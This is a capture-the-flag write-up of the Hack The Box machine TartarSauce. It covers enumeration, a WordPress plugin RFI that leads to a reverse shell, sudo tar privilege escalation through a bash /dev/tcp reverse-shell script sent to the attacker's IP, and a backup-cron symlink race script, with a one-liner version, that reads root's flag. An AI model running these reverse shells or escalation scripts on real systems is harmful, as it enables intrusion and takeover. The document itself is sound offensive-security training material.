

---
search:
  exclude: true
---
# TartarSauce Writeup

## Introduction :

TartarSauce is a Medium linux box released back in May 2018.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.11/23 ] [~]
      → nmap -F 10.10.10.88
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-18 12:17 GMT
      Nmap scan report for 10.10.10.88
      Host is up (0.071s latency).
      Not shown: 99 closed ports
      PORT   STATE SERVICE
      80/tcp open  http
    
      Nmap done: 1 IP address (1 host up) scanned in 0.51 seconds
    
      λ nihilist [ 10.10.14.11/23 ] [~]
      → nmap -sCV -p80 10.10.10.88
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-18 12:17 GMT
      Nmap scan report for 10.10.10.88
      Host is up (0.073s latency).
    
      PORT   STATE SERVICE VERSION
      80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
      | http-robots.txt: 5 disallowed entries
      | /webservices/tar/tar/source/
      | /webservices/monstra-3.0.4/ /webservices/easy-file-uploader/
      |_/webservices/developmental/ /webservices/phpmyadmin/
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      |_http-title: Landing Page
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 9.09 seconds
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 running httpd 2.4.18 with an interesting directory which is /webservices/ so let's dirsearch it:
    
    
      λ nihilist [ 10.10.14.11/23 ] [~]
      → dirsearch -u http://10.10.10.88/webservices/ -t 50 -e txt,html,php,xml -x 403
      git clone https://github.com/maurosoria/dirsearch.git
    
       _|. _ _  _  _  _ _|_    v0.3.9
      (_||| _) (/_(_|| (_| )
    
      Extensions: txt, html, php, xml | HTTP method: get | Threads: 50 | Wordlist size: 7124
    
      Error Log: /home/nihilist/Desktop/Tools/dirsearch/logs/errors-20-03-18_12-39-18.log
    
      Target: http://10.10.10.88/webservices/
    
      [12:39:18] Starting:
      [12:39:52] 301 -  319B  - /webservices/wp  ->  http://10.10.10.88/webservices/wp/
    
      Task Completed
    
    

And we found the directory /webservices/wp ! so let's use wpscan to enumerate the wordpress website : 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~]
      → wpscan -ep --url http://10.10.10.88/webservices/wp
      _______________________________________________________________
               __          _______   _____
               \ \        / /  __ \ / ____|
                \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
                 \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
                  \  /\  /  | |     ____) | (__| (_| | | | |
                   \/  \/   |_|    |_____/ \___|\__,_|_| |_|
    
               WordPress Security Scanner by the WPScan Team
                               Version 3.7.9
             Sponsored by Automattic - https://automattic.com/
             @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
      _______________________________________________________________
    
      [+] URL: http://10.10.10.88/webservices/wp/ [10.10.10.88]
      [+] Started: Wed Mar 18 12:41:15 2020
    
      Interesting Finding(s):
    
    

Running the aforementionned command, we are hinted towards a vulnerable plugin : Gwolle Guestbook <= 2.5.3 which, according to our WPScan is vulnerable to Cross Site Scripting. http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt

You can check out Gwolle Guestbook's WP plugin RFI vulnerability explanation [here](https://www.immuniweb.com/advisory/HTB23275). Basically, the vulnerability is located in gwolle's frontent captcha ajaxresponse.php, and more precisely in the abspath parameter, which basically is where the RFI vulnerability is. so we can trigger a reverse shell to our local port 9001 with a simple curl command. 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/TarTarSauce]
      → locate nihilist.php
      /home/nihilist/_HTB/Apocalyst/nihilist.php
      /home/nihilist/_HTB/Bastard/nihilist.php
      /home/nihilist/_HTB/Cronos/nihilist.php
      /home/nihilist/_HTB/Enterprise/nihilist.php
      /home/nihilist/_HTB/Haircut/nihilist.php
      /home/nihilist/_HTB/Meow/nihilist.php
      /home/nihilist/_HTB/Networked/nihilist.php.gif
      /home/nihilist/_HTB/October/nihilist.php5
      /home/nihilist/_HTB/Popcorn/nihilist.php
      /home/nihilist/_HTB/Popcorn/nihilist.php.gif
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/TarTarSauce]
      → cp /home/nihilist/_HTB/Meow/nihilist.php .
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/TarTarSauce]
      → nano nihilist.php
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/TarTarSauce]
      → sudo python -m SimpleHTTPServer 80
      [sudo] password for nihilist:
      Serving HTTP on 0.0.0.0 port 80 ...
    

` 

And we get a reverse shell ! although we need to elevate our privileges to the onuma user, so let's poke around the box a bit, Our first reflex here is sudo -l as always: 
    
    
      www-data@TartarSauce:/$ sudo -l
      sudo -l
      Matching Defaults entries for www-data on TartarSauce:
          env_reset, mail_badpass,
          secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
      User www-data may run the following commands on TartarSauce:
          (onuma) NOPASSWD: /bin/tar
    

And it looks like we are able to execute /bin/tar as onuma without any password! so we need to get a shell by using /bin/tar, One way of doing so is creating a textfile containing the following: 
    
    
      #!/bin/bash
      bash -i >& /dev/tcp/10.10.14.11/9002 0>&1
    

Saving it as a bashscript, and then getting tar to execute it with the -cvf flags. 
    
    
      www-data@TartarSauce:/tmp$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.11/9002 0>&1' > nihilist.sh
    
      www-data@TartarSauce:/tmp$ tar -cvf nihilist.tar nihilist.sh
      tar -cvf nihilist.tar nihilist.sh
      nihilist.sh
    
      www-data@TartarSauce:/tmp$ ls
      ls
      nihilist.sh
      nihilist.tar
      systemd-private-ae3f290ecd13426bbc3a0ef6fa0c5f2f-systemd-timesyncd.service-6eF29j
      vmware-root
    

Now that we have our nihilist.tar we use tar's --to-command flag which will execute our bashscript, and obviously we'll run tar as the user onuma: 

_Terminal 1:_
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/TarTarSauce]
      → nc -lvnp 9002
      Ncat: Version 7.80 ( https://nmap.org/ncat )
      Ncat: Listening on :::9002
      Ncat: Listening on 0.0.0.0:9002
    
    

` _Terminal 2:_
    
    
      www-data@TartarSauce:/tmp$ sudo -u onuma tar -xvf nihilist.tar --to-command /bin/bash
    

` _Terminal 1:_
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/TarTarSauce]
      → nc -lvnp 9002
      Ncat: Version 7.80 ( https://nmap.org/ncat )
      Ncat: Listening on :::9002
      Ncat: Listening on 0.0.0.0:9002
      Ncat: Connection from 10.10.10.88.
      Ncat: Connection from 10.10.10.88:43532.
      bash: cannot set terminal process group (1247): Inappropriate ioctl for device
      bash: no job control in this shell
      onuma@TartarSauce:/tmp$ whoami
      whoami
      onuma
      onuma@TartarSauce:/tmp$ cat /home/onuma/user.txt
      cat /home/onuma/user.txt
      b2XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to print out the user flag. 

## **Part 3 : Getting Root Access**

Now we can use pspy to find about the cronjob script ran as root every 5 minutes /usr/sbin/backuperer
    
    
      onuma@TartarSauce:/tmp$ cat /usr/sbin/backuperer
      cat /usr/sbin/backuperer
      #!/bin/bash
    
      #-------------------------------------------------------------------------------------
      # backuperer ver 1.0.2 - by ȜӎŗgͷͼȜ
      # ONUMA Dev auto backup program
      # This tool will keep our webapp backed up incase another skiddie defaces us again.
      # We will be able to quickly restore from a backup in seconds ;P
      #-------------------------------------------------------------------------------------
    
      # Set Vars Here
      basedir=/var/www/html
      bkpdir=/var/backups
      tmpdir=/var/tmp
      testmsg=$bkpdir/onuma_backup_test.txt
      errormsg=$bkpdir/onuma_backup_error.txt
      tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)
      check=$tmpdir/check
    
      # formatting
      printbdr()
      {
          for n in $(seq 72);
          do /usr/bin/printf $"-";
          done
      }
      bdr=$(printbdr)
    
      # Added a test file to let us see when the last backup was run
      /usr/bin/printf $"$bdr\nAuto backup backuperer backup last ran at : $(/bin/date)\n$bdr\n" > $testmsg
    
      # Cleanup from last time.
      /bin/rm -rf $tmpdir/.* $check
    
      # Backup onuma website dev files.
      /usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &
    
      # Added delay to wait for backup to complete if large files get added.
      /bin/sleep 30
    
      # Test the backup integrity
      integrity_chk()
      {
          /usr/bin/diff -r $basedir $check$basedir
      }
    
      /bin/mkdir $check
      /bin/tar -zxvf $tmpfile -C $check
      if [[ $(integrity_chk) ]]
      then
          # Report errors so the dev can investigate the issue.
          /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
          integrity_chk >> $errormsg
          exit 2
      else
          # Clean up and save archive to the bkpdir.
          /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
          /bin/rm -rf $check .*
          exit 0
      fi
    

To exploit this script we can unpack the archive during the sleep period, replacing one of the files with a link to /root/root.txt and re-archive it. When the script will run to check for differences, the result of the contents of both files will end up in the logs. So we'll use [0xdf](https://0xdf.gitlab.io/)'s awesome bashscript which does it for us automatically :
    
    
      #!/bin/bash
    
      # work out of shm
      cd /dev/shm
    
      # set both start and cur equal to any backup file if it's there
      start=$(find /var/tmp -maxdepth 1 -type f -name ".*")
      cur=$(find /var/tmp -maxdepth 1 -type f -name ".*")
    
      # loop until there's a change in cur
      echo "Waiting for archive filename to change..."
      while [ "$start" == "$cur" -o "$cur" == "" ] ; do
          sleep 10;
          cur=$(find /var/tmp -maxdepth 1 -type f -name ".*");
      done
    
      # Grab a copy of the archive
      echo "File changed... copying here"
      cp $cur .
    
      # get filename
      fn=$(echo $cur | cut -d'/' -f4)
    
      # extract archive
      tar -zxf $fn
    
      # remove robots.txt and replace it with link to root.txt
      rm var/www/html/robots.txt
      ln -s /root/root.txt var/www/html/robots.txt
    
      # remove old archive
      rm $fn
    
      # create new archive
      tar czf $fn var
    
      # put it back, and clean up
      mv $fn $cur
      rm $fn
      rm -rf var
    
      # wait for results
      echo "Waiting for new logs..."
      tail -f /var/backups/onuma_backup_error.txt
    

That we can also transform into a one liner: 
    
    
      cd /dev/shm; start=$(find /var/tmp -maxdepth 1 -type f -name ".*"); cur=$(find /var/tmp -maxdepth 1 -type f -name ".*"); while [ "$start" == "$cur" -o "$cur" == "" ] ; do sleep 10; cur=$(find /var/tmp -maxdepth 1 -type f -name ".*"); done; echo "File changed... copying here"; cp $cur .; fn=$(echo $cur | cut -d'/' -f4); tar -zxf $fn; rm var/www/html/robots.txt; ln -s /root/root.txt var/www/html/robots.txt; rm $fn; tar czf $fn var; mv $fn $cur; rm $fn; rm -rf var
    

We'll save the script locally, then use both python's SimpleHTTPServer with curl that is on the machine to execute the script without having to download it onto the box: 

And that's it ! we have been able to print out the root flag.

## **Conclusion**

Here we can see the progress graph :

